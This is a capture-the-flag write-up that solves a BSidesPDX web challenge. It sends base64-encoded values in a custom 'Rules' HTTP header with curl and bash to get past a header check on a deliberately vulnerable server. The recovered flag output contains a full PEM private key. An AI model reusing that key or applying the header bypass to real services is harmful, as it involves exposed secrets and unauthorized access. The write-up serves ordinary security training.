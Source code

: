 # 100 - heading the right way (Solution)
## Finding the challenge

This challenge was hosted at http://heading-the-right-way.bsidespdxctf.party:8081/

## Solution

The challenge drops you on a website that only has a few links that are live. If you visit the rulesforwinnoing page you are greeted with

`The Rules to Winning`
`1)cheat_to_win,2)dont_get_caught,3)never_admit,4)lawyer_up,5)buy_low,6)sell_high,7)everything_is_hackable,8)its_not_an_0_day_if_you_disclose_it,9)make_unverifiable_bold_claims 400 Bad Request 'Rules' header not found `

The page is looking for a header called Rules

If we curl `http://heading-the-right-way.bsidespdxctf.party:8081/rulesforwinning -H "Rules: yolo"` you will be returned  `Unable to parse base64`

So the header is looking for a base64 encoded payload if we take the rules and base64 encode them and send them as the header.

`curl http://heading-the-right-way.bsidespdxctf.party:8081/rulesforwinning -H "Rules: MSljaGVhdF90b193aW4sMilkb250X2dldF9jYXVnaHQsMyluZXZlcl9hZG1pdCw0KWxhd3llcl91cCw1KWJ1eV9sb3csNilzZWxsX2hpZ2gsNylldmVyeXRoaW5nX2lzX2hhY2thYmxlLDgpaXRzX25vdF9hbl8wX2RheV9pZl95b3VfZGlzY2xvc2VfaXQsOSltYWtlX3VudmVyaWZpYWJsZV9ib2xkX2NsYWltcw==`

We get
>Got the super secure header figured out

The security page is leaking a value.

If we take what we did for the rules page and follow the same process of taking the leaked value base64 encoded it and submitt it we should get the flag. 

Now if we do on a bash command line

`header=$(curl heading-the-right-way.bsidespdxctf.party:8081/security | base64)`
`headernospace="$(echo -e "${header}" | tr -d '[:space:]')"`
`curl localhost:8081/security -H "Rules: $headernospace"`

we will get the flag :)





## flag
```
	-----BEGIN PRIVATE KEY-----
	MIIEvQIBADANBgkqhkiG9w0BAQEFAASCBKcwggSjAgEAAoIBAQCpQ8VV1H1O6c5D
	8Fo/h0hMzjDtoG991q/d2NWFLHPhzKZ79bTzbfZQkyEKMujsEx3tLMZNxnaVGn5M
	flPebGC+tYOmovZNW6l7wwEcFBZFXXx4QmQhgWfSD/AwQaOIWw2rOijvzx5vYJuF
	W1GJbyPp3mDjNgzWzesD8Aal5MmlKmz3cJFVhcdQOesNzYhEttwVJER2uQ9xl74c
	YRoujbm1eKAJSG+i26Pj5CeRCZ2kL3xn76viUXr2gS2Sg03B2LKl6fNfKphdjw9E
	Js3Pji/H9USdc80UxjXC3midm6AGP2+fmrjQSBYW0kI4eU1IwfdnXJ2RaL9MhIMN
	JyzSt14hAgMBAAECggEADfJfmCriCFaLgF2VkhZ7hpiWv32wshW2d/kd3tNC2SAb
	t6sPNd+hpBH7bvOy7YDFvn0p+c6YhsCgF31xO6qCbjRWnKxgzw72cBQpSz78dsq1
	LtOJnJklDNHzYIaICvw1rB4msVvHjjXPmrVjiod11hdUtGQHustMyg5E/fZUBx/N
	fJsEOxRLepXoi4seAfVJ1i9yvKbQdhLD6iIJWco/1seKTDw43uy2O3xTkE8nEStH
	WQOU5BVNLOZSFZ6ulHIT041k0HflOGIGEte7tw77XoOpP7um3dnzpiQCEB9+M8op
	UQQ61VM8wCd4Z4CQWPk+ONyYV1zZR3ykMSDSOQ6yAQKBgQDRsQnXAdNP/vzurhXn
	Pq95aiCjx6p+rikBUZhHIw5WPVs7jdOPv1Mj78s9D8v0SRpAr4TJIjxHy7gZkTce
	9BBpe0XgD8jDGeOu2ekKIt4k4CV5gBggncPK0CvfVaN0c/j15KL6BBdw19L7IeJ8
	tZgNrEZVFHN/i+hWawkq4nL7aQKBgQDOpTE2b1uvHxw4m3d17TiCXHJT4QurFHDr
	NXQVnPZmE0LjWukQqgAZ7GQN73n+S2wPJL8uPSJqDizfGenBbcxx3BOPbeD+lyRu
	+bSKdrR6hsRtRtgjGg1YXCXSSEZggxZyX66+uVGK6pn9Lm/CFxIOzGY/9O/oskv5
	6xOb1CiN+QKBgGGz46nSp+r2HFP5uSruAkTINj0Zo08zRtfedN1wcBWusPumsZSg
	yNRNvpzM53MDPMA3B9/Pm9a4DSecidpaTetYDM7BjAGb5oJp9jNK28bCybM7BALu
	f3PYWxjMhkSUZMPtrCJiFan2Zc+tkiIZWqfERWEPDmG3hqH9bWAV8w1BAoGBAMYX
	RR3RkipFwF/jaJj7Vnhg9pfB29WcOsK+8xDk7q7bN/uKYnE/BenT2fYh4ugKlQPP
	ThWdNShFfm5AAP0TrDBZr8aGpnBnot1fMdqqAEiUeCfpCbhceP6DFx6FejF6eEIb
	xv+91pU8X3F82lVMmFrnRf15Z6HBiWOCHcH7lwTBAoGAJ2enLDc7aGxBSYvJHJlW
	UP8nGu8FbDtVaWJJyha12Q4bnPAQc2eElD7yTQFJ1ABuCDyHIj1WE/LkxYr8Wm0a
	xFkcjwjPBkD9CyVcG3EwwA47pyTTgSGQljxHt0hfLz/yc11K2nRQ18hQoufdKvuh
	LEHnsCZexdUfEQO2gnN7tLY=
	-----END PRIVATE KEY-----
You are going to need that key for 200 ;)
flag: BSidesPDX{H3ad3rs_ar3_n0t_S3cur1ty_C0ntr0ls}
```